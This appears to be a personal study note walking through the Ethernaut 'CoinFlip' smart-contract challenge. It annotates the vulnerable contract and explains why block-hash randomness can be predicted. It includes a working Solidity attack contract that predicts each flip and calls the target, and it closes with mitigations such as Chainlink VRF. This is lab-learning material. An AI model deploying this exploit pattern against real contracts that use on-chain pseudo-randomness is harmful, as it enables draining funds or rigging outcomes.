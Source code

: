 ```yaml
---
tags: 🥷
url: https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f
topic: [[Blockchain]]
---
```


# 4. CoinFlip
- used [mythrill](https://github.com/ConsenSys/mythril) for static analysis on EVM bytecode: `myth a CoinFlip.sol`
	- make sure you store your contracts locally *(`coinFlip.sol` & dependencies: `SafeMath.sol`)* 
	- control flow decision is made based on the block hash of a previous block
- we might be able to guess every time by having control over how the `blockValue` is determined, so let's look @ the contract

## Disecting the contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    // it's actually 2^255
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Setup the counter to 0
    constructor() public {
      consecutiveWins = 0;
    }


    // give a bool, get bool back
    function flip(bool _guess) public returns (bool) {
      // block.number: the curr block nr
      // blockhash(): hash of the given block — only for 256 most recent blocks
      // look @ the nr of the prev block, get hash & cast to uint256
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));


      // check for multiple txs  on the same block  
      // and let through only the first one
      if (lastHash == blockValue) {
        // undo all state changes, but handled 
        // differently than an `invalid opcode`
        //   - allows youo to return value
        //   - or refund remaining gas to caller
        revert();
      }
      // set the lastHash based on blockValue
      // ! it's entirely dependent on the block tx is included on
      lastHash = blockValue;
      
      // btw: 3 / 4 = 0 in solidity
      // so we should get only 1 or 0
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;

      // compare pseudo random flip result with
      // user's guess & adjust wins accordingly
      if (side == _guess) {
        consecutiveWins++;
        return true;
      } else {
        consecutiveWins = 0;
        return false;
      }
    }
}
```

## Exploitation
**Every single transaction in the same block can determine the same `blockValue` => evaluate the *coinflip* result**. 

How we could do that ? As always the best way to attack a smart contract is with another smart contract :))
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";
using SafeMath for uint256;

contract CoinFlip {
	...
}

contract angryApe {
  CoinFlip public flipper; // instance of target contract
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  bool public guess; // make guess accesible

  // init connection to the target contract
  constructor() {
    flipper = CoinFlip(0x37b29A2b9d16b4d005EfcEce415e555C5FD2cf71);
  }

  // sometimes you can cheat
  function cheat() public returns(bool) {
    // calculate blockValue, flip & get your guss
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 flip       = blockValue.div(FACTOR);
    guess   = flip == 1 ? true : false;

    // send to target contract
    flipper.flip(guess);
    return true;
  }
}
```

The only thing left to be done is to spam the `cheat()` function
> *is there any way to automate this?*


## Takeaways
>  "This property of Proof of Work based consensus is one of the greatest obstacles to achieving truly random outcomes on the blockchain. Think on that before building a decentralized lotto 🤑"
- generating random numbers in solidity can be tricky, since everything in smart contracts i publicly visible *(including the local `private` vars)*
- whenever developing a smart contract keep in mind that miners also have control over things like: blockhashes, timestamps & whether to include certain txs
- **Mitigation**
	- to get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
	- other options include using Bitcoin block headers *(verified through [BTC Relay](http://btcrelay.org/))*, [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## See Also
[[Ethernaut Wargame]]
[[Blockchain]]